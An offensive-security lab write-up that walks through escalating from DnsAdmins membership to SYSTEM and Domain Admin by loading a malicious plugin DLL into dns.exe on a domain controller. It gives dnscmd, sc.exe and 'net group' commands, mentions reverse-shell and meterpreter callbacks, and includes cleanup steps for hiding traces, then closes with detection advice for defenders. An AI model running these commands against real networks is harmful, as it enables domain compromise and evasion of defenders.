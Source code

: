 # From DnsAdmins to SYSTEM to Domain Compromise

In this lab I'm trying to get code execution with `SYSTEM` level privileges on a DC that runs a DNS service as originally researched by Shay Ber [here](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83).

The attack relies on a [DLL injection](../../offensive-security/code-injection-process-injection/dll-injection.md) into the dns service running as SYSTEM on the DNS server which most of the time is on a Domain Contoller.

## Execution

For the attack to work, we need to have compromised a user that belongs to a `DnsAdmins` group on a domain. Luckily, our user `spotless` already belongs to the said group:

```csharp
 net user spotless /domain
```

![](<../../.gitbook/assets/Screenshot from 2018-11-11 16-55-52.png>)

### Building the DLL

As mentioned earlier, we need to build a DNS plugin DLL that we will be injecting into a dns.exe process on a victim DNS server (DC). Below is a screenshot of the DLL exported functions that are expected by the dns.exe binary when loading a plugin DLL. I have also added a simple system command to invoke a netcat reverse shell once the plugin is initialized and code is executed.&#x20;

I then tested the function with rundll32 as shown below, which returned a reverse shell to my attacking machine - code gets executed, shell gets spawned:

```csharp
rundll32.exe .\dnsprivesc.dll,DnsPluginInitialize
```

![](<../../.gitbook/assets/Screenshot from 2018-11-11 17-30-47.png>)

### Abuse DNS with dnscmd

Now that we have the DLL and we checked that it is working, we can ask the victim `DC01` to load our malicious DLL (from the victim controlled network share on host 10.0.0.2) next time the service starts (or when the attacker restarts it):

{% code title="attacker@victim.memberOfDnsAdmins" %}
```csharp
dnscmd dc01 /config /serverlevelplugindll \\10.0.0.2\tools\dns-priv\dnsprivesc.dll
```
{% endcode %}

The below looks promising and suggests the request to load our malicious DLL was successful:

![](<../../.gitbook/assets/Screenshot from 2018-11-11 21-55-59.png>)

{% hint style="info" %}
`dnscmd` is a windows utility that allows people with `DnsAdmins` privileges manage the DNS server. The utility can be installed by adding `DNS Server Tools` to your system as shown in the below screengrab.
{% endhint %}

![](<../../.gitbook/assets/Screenshot from 2018-11-11 17-04-48.png>)

The below command on the victim further suggests that our request was successful and the registry value `ServerLevelPluginDll` points to our malicious DLL:

```csharp
# note that as attacker you cannot check this on a DC since you do not have yet access to the system. Because this is a lab environment, I am checking the registry from the DC itself.
Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
```

![](<../../.gitbook/assets/Screenshot from 2018-11-11 21-51-21.png>)

### Getting code execution with NT\SYSTEM

Now the next time dns service starts, our malicious DLL should be loaded to the dns.exe process and a reverse shell should be sent back to our attacking system, so let's go and restart the DNS service:

{% code title="attacker@victim" %}
```csharp
sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```
{% endcode %}

By this point, I should have received a reverse shell, but unfortunately, I did not.

After checking the DNS logs on the `DC01` I saw the below error, suggesting there was something off with my DLL:

![](<../../.gitbook/assets/Screenshot from 2018-11-11 21-45-51.png>)

I tried exporting functions with C++ name mangling and without and although the DLL exports seemed to be OK per CFF Explorer, I was still not able to make the DC load my malicious DLL successfully without corrupting the dns service:

![](<../../.gitbook/assets/Screenshot from 2018-11-11 21-46-09.png>)

{% hint style="warning" %}
Although I was not able to correctly inject the DLL without crashing the dns service in my lab environment, I still decided to publish these notes, in case they will be stubmled upon by a reader who had successfully injected a custom DLL and who would like to share their thoughts on what I am overlooking as this would be much appreciated.
{% endhint %}

Since I could not get my malicious DLL injected into the dns.exe successfully, I thought of trying to inject the meterpreter payload using the same technique.

It can be observed, that the DLL with meterpreter payloads gets ineed loaded and we receive a call back attempt from meterpreter, but since the DLL does not conform to the required format (does not have required exported functions), the session dies immediately (or this is what I thought initially - as you will later see, it turns out I was simply using a wrong listener):

![](<../../.gitbook/assets/Screenshot from 2018-11-11 22-33-58.png>)

Since the above suggests that the the DLL code still got executed, we can try asking the DLL to execute the following on the DC:

```csharp
net group 'domain admins' spotless /add /domain
```

```
dnsprivesc.dll
```

![](<../../.gitbook/assets/Screenshot from 2018-11-11 22-55-35.png>)

Before restarting the DNS service and getting our malicious DLL executed, let's make sure our attacking user `spotless` is not in `Domain Admins` group:

![](<../../.gitbook/assets/Screenshot from 2018-11-11 23-03-40.png>)

Now if we restart the DNS service which will load our `addDA.dll`, we see that the user `spotless` is now a member of the `Domain Admins`:

![](<../../.gitbook/assets/Screenshot from 2018-11-11 23-03-52.png>)

{% hint style="danger" %}
Warning: at this time the DNS service is probably crashed, so be warned - using DLLs that do not conform to the plugin requirements is not stealthy and this type of activity probably will get picked up by defenders really quickly unless you can restore the DNS service immediately.
{% endhint %}

Below confirms that the dns service is down, however we can still access the DC C$ share by DC's IP from our spotless user, meaning that we have escalated privileges to DA:

![](<../../.gitbook/assets/Screenshot from 2018-11-11 23-09-23.png>)

One could think about scripting/automating the after-attack cleanup and the DNS service restoration and include the required code in the same malicious DLL that creates a backdoor user in the first place:

{% code title="attacker@victim" %}
```csharp
reg query \\10.0.0.6\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
reg delete \\10.0.0.6\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll
sc.exe \\10.0.0.6 stop dns
sc.exe \\10.0.0.6 start dns
//remove any other traces/logs
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-11-11 23-21-55.png>)

Once the DNS service is restored, we can now access the C$ using DC01 computer name:

![](<../../.gitbook/assets/Screenshot from 2018-11-11 23-24-44.png>)

### Bonus Reminder

It turns out that the reason the meterpreter payload failed because of a classic mistake of not using the right listener for staged/non-staged payloads - always double check your payloads and make sure that the listeners are able to handle the callbacks.

Once I set up the listener correctly, the meterpreter shell came back as expected - note that the dns.exe service still gets corrupted.

![](<../../.gitbook/assets/Peek 2018-11-12 21-58.gif>)

## Observations

As a defender, one should considering monitoring for suspicious child processes (rundll32, powershell, cmd, net, etc.) spawned by the dns.exe on DCs:

![](<../../.gitbook/assets/Screenshot from 2018-11-12 22-09-43.png>)

Also, you may want to consider monitoring `HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters` value `ServerLevelPluginDll`, especially if it begins with string `\\` in the data field.

## Update #1

I was pointed out by a reader that a video by ippsec [https://youtu.be/8KJebvmd1Fk?t=3130](https://youtu.be/8KJebvmd1Fk?t=3130) explains why the dns service was crashing, so please check the video, but if you are too lazy, the answer is provided here too.

You need to execute your code in a **new thread** (this was the missing piece in my first attempt that made the service crash) in the exported DLL function `DnsPluginInitialize`, which is the function that gets invoked, when the dnscmd loads our malicious DNS service plugin DLL.

## References

{% embed url="https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83" %}

{% embed url="http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html" %}

{% embed url="https://github.com/dim0x69/dns-exe-persistance" %}
